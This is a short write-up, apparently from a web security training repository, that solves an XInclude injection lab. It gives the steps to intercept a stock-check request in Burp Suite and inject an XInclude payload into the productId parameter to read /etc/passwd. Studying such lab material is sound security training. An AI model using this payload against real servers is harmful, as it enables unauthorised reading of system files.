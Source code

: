 ![image](https://github.com/udayk01/Web-Security/assets/52235763/21522ec0-6f55-4210-b6fc-d4120797f84b)

## Solution:

> Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.

![image](https://github.com/udayk01/Web-Security/assets/52235763/83116d7d-4bf3-49c5-a894-4eb0e9262b69)

> Set the value of the productId parameter to:

```<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>```

![image](https://github.com/udayk01/Web-Security/assets/52235763/287f9f75-1a76-4b93-aa56-015249af901e)

> Lab Solved

![image](https://github.com/udayk01/Web-Security/assets/52235763/7c7af6eb-6c18-4882-9da0-db4f7c70c0df)
